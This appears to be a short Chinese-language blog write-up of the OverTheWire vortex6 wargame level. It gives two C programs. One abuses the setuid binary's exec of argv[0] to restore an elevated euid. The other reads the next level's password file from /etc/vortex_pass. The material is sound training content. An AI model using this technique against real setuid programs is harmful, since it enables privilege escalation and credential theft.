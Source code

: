 ```yaml
---
title: vortex6
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

反汇编之后，发现同样存在format string。但这次还有一restart函数，检查发现他exec了我们的argv[0]。但是argv[0]可以是任意的内容提交给他，所以我们写一个读密码的程序：

{% highlight c %}
#include <unistd.h>
#include <stdio.h>

int main (int argc, char *argv[]) {
    seteuid(5007);
    FILE *fp = fopen("/etc/vortex_pass/vortex7", "r");
    char buf[128];
    size_t numRead = fread(buf, 1, sizeof buf, fp);
    buf[numRead] = 0;
    printf("%s\n", buf);
    return 0;
}
{% endhighlight %}


因为在exec过程中，euid被保存到saved uid里，所以我们要先恢复euid。但这里我不知道怎么得到saved uid，只能hard coded

然后写一个程序调用vortex6:

{% highlight c %}
#include <unistd.h>

int main (int argc, char *argv[]) {
    char *args[] = {"/tmp/nabla/read",NULL};
    execv("/vortex/vortex6", args);
}
{% endhighlight %}